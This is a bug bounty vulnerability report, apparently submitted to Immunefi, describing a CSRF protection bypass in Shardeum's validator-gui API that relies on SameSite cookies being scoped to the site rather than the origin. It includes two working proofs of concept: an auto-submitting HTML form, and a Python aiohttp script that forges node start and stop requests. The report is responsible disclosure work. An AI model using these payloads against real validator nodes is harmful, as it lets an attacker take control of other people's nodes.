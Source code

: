 
# API CSRF protection bypass leading to arbitrary 'operator-cli' command execution

Submitted on Tue Jul 09 2024 22:25:49 GMT-0400 (Atlantic Standard Time) by @anton_quantish for [Boost | Shardeum: Ancillaries](https://immunefi.com/bounty/shardeum-ancillaries-boost/)

Report ID: #33040

Report type: Websites and Applications

Report severity: Low

Target: https://github.com/shardeum/validator-gui/tree/dev

Impacts:
- Taking down the application/website
- Taking state-modifying authenticated actions (with or without blockchain state interaction) on behalf of other users without any interaction by that user, such as: Changing registration information, Commenting, Voting, Making trades, Withdrawals, etc.

## Description
Hey team,

## Brief/Intro
In certain circumstances, there's a possibility for attacker to bypass the CSRF protection of the Validator GUI's API server and, thus, execute arbitrary `operator-cli` commands even without user interaction at all.

## Vulnerability Details
The Validator GUI app uses requests to `/api` endpoint to communicate with the `operator-cli` application. Almost all the user do within the app result in sending requests there. Some of them are state-changing, like stopping or starting the node.

API authenticates requests by the `accessToken` cookie, which is `SameSite=Strict` that should, by your design, prevent [CSRF attacks](https://owasp.org/www-community/attacks/csrf).

And indeed, when you set `SameSite=Strict` flag for the cookie, it prevents browser from sending this cookie value from another *sites*. But the flaw of such a protection is that **Site IS NOT Origin**. The `origin` is the combination of scheme, full domain and port, but the `site` is just scheme + top level domain (see the screenshot attached).

Thus, the `SameSite=Strict` cookie will be sent by a browser, if the request is originated from the same host but different port, or from another subdomain. 

In your case it means that if a victim opens in his browser any other web-server on the machine where the validator-gui works, this server can forge the `/api` requests and, thus, execute arbitrary `operator-cli` commands from behalf of the victim. This web-server can be malicious by itself, or store some third-party malicious content or just have their own vulnerabilities (like XSS).

Moreover, if the operator-cli and the validator-gui are installed on a victim's local machine (I believe, it's possible case), then every executable file or software on the same machine can force opening a browser window referring to its own web-server and forge the requests.

## Impact Details
For now, I see the following state-changing `/api` endpoints available:
- /node/start
- /node/stop
- /node/update
- /node/status/history
- /settings

Requests to all of them can be forged in the circumstances I described above. I see that some of gui functionality is still under development so the attack scope could be even wider in future (including staking or something similar, for instance).

## Severity
In some cases, as I shown you above, the malicious software is able to perform state-changing actions without interacting with a victim at all (PoC #2). Also, if the staking functionality is planning to be added into the validator-gui, this vulnerability could also lead to something similar to `Submitting malicious transactions` which is also Critical.
        
## Proof of concept
If your validator gui port is not 8081, please change it accordingly.

## Proof of Concept #1
1. Place the following HTML in the `/var/www/html/index.html` of Nginx installed on the same machine as the validator-gui, replacing the IP with the correct (external) one:
```
<form id=attack method=post action="http://{IP}:8081/api/node/stop">
</form>
<script>
attack.submit()
</script>
```
2. Visit `http://{IP}/index.hml` and make sure the malicious `/api` request with auth cookie inside was send to the validator-gui API and the node is stopping.

## Proof of Concept #2
In case when the validator-gui is installed on your local machine and is available in your browser on `http://localhost:8081`.

0. Install the dependencies with `pip3 install aiohttp`

1. Run the following python-script with `python3 poc.py`:
```
import asyncio
import webbrowser

from aiohttp import web


async def hello(request):
    return web.Response(text="""
<form id=attack method=post action="http://localhost:8081/api/node/start">
</form>
<script>
attack.submit()
</script>
""", content_type='text/html')


app = web.Application()
app.add_routes([web.get('/', hello)])

async def main():
    runner = web.AppRunner(app)
    await runner.setup()
    site = web.TCPSite(runner, 'localhost', 12345)
    await site.start()
    webbrowser.open_new('http://localhost:12345/')
    while True:
        await asyncio.sleep(10)


asyncio.run(main())
```

2. Make sure the new browser window referring to `http://localhost:12345/` is open, and the malicious request with cookie inside is sent.

This script starts its own web-server on `localhost:12345` and, thus, opening the browser window referring to itself, can bypass the CSRF protection implemented.

This is how any software on the same machine can manage the `operator-cli`.